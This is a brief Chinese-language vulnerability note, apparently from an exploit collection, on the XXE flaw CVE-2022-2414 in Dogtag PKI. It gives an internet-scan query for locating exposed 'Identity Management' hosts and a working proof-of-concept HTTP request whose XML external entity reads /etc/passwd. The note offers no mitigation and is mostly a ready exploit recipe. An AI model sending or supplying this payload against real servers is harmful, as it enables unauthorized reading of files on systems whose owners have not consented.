

# Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

```
Dogtag PKI
```

## 网络测绘

```
title="Identity Management"
```

## 漏洞复现

登录页面


验证POC

```
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

